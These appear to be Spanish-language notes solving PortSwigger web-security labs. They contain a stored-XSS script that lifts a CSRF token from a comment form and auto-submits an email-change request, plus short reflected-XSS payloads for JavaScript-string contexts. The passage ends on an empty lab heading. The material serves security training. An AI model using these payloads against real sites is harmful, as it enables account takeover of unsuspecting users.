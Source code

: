 El sitio objetivo tiene una vulnerabilidad en la sección de comentarios, que permite cargar código arbitrario que y ejecutarlo en el momento en que cualquier usuario ingresa a la publicación afectada. Además, en cada publicación hay un formulario para dejar comentarios que contiene un token CSRF válido, el cual puede ser utilizado para atravesar el control de CSRF.

Para resolver este lab, se escribe un Script que envía un mensaje HTTP, a la ubicación /email/change-email del sitio, con el método POST. En el cuerpo del mensaje, se incorpora el nuevo email y el token CSRF obtenido del formulario de comentarios.

```html
<form action="/email/change-email" method="POST">
  <input type="hidden" name="email" value="plz@stap.com" />
  <input id="changeMe" required="" type="hidden" name="csrf" value="changeMe" />
</form>
<script>
  document.addEventListener('DOMContentLoaded', (event) => {
    let csrf = document.getElementById('changeMe');
    let origCsrf = document.forms[1].getElementsByTagName('input')[0];
    csrf.value = origCsrf.value;
    document.forms[0].submit();
  });
</script>
```

### [Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)

```javascript
</script><script>alert(1)</script>
```

### [Reflected XSS into a JavaScript string with angle brackets HTML encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)

```javascript
'; alert(1)//
```

### [Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)

```javascript
\'; alert(1)//
```

### [Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped)
